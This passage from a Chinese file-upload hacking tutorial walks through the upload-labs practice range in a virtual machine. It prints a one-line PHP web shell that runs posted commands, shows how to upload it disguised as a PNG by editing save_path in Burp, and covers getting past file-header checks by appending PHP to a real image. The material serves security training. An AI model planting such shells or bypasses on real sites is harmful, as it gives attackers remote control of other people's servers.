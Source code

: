 接着我们要安装小皮面板作为这次实验的环境，小皮面板对主机的侵入性还是蛮大的，我试过在一台远程 Linux 服务器安装，不仅没跑起来，而且还把环境给污染了，无奈只能给服务器重装系统。所以还是在虚拟机环境跑小皮面板，安全隔离，这是安装教程 👉 [02-Mac M1M2 安装 Windows11 && 小皮面板 PhpStudy](https://wukaipeng.com/technique/net-security/08/02)

安装好之后，我们打开 Windows 中的小皮面板 PhpStudy，切换一个低的 PHP 版本：

![](http://img.wukaipeng.com/2023/10/26-061912-image-20231026061912180.png)

关闭 `magic_quotes_gpc`

![](http://img.wukaipeng.com/2023/10/26-062137-image-20231026062136850.png)

重启 PhpStudy。

然后我们准备一个文件 `post.php`，内容为：

```php
<?php eval(@$_POST['cmd']); ?>
```

将 `post.php` 后缀改为 `.png`，然后打开 upload-labs 上传，用 Burp 拦截，修改 `save_path`：

![image-20231026071654942](http://img.wukaipeng.com/2023/10/26-071655-image-20231026071654942.png)

> 如果失败的话可以看一下是否被 Windows11 的“病毒和威胁防护”拦截了。

上传后我们会获得这样的图片 URL：`http://172.16.26.128/upload-labs/upload/post.php%EF%BF%BD/6320231026071713.png`

将 `post.php` 后面去掉，然后在蚁剑上进行连接：

![](http://img.wukaipeng.com/2023/10/26-071834-image-20231026071834534.png)



## 服务端 - 内容绕过

### 文件头检查

下面文件头的格式是十六进制：

- .jpg:  `FF D8 FF E0 00 10 4A 46 49 46`
- .gif: `47 49 46 38 39 61`
- .png: `89 50 4E 47`

Mac 下使用 Hex Friend（[http://hexfiend.com/](http://hexfiend.com/)） 查看一张 png 的十六进制：

![](http://img.wukaipeng.com/2023/10/23-065115-image-20231023065115774.png)

🐴 制作**图片马**：

在 Hex Friend 中打开一张真实图片，在最后加上一句话木马

```php
<?php phpinfo(); ?>
```

![](http://img.wukaipeng.com/2023/10/24-071627-image-20231024071626901.png)
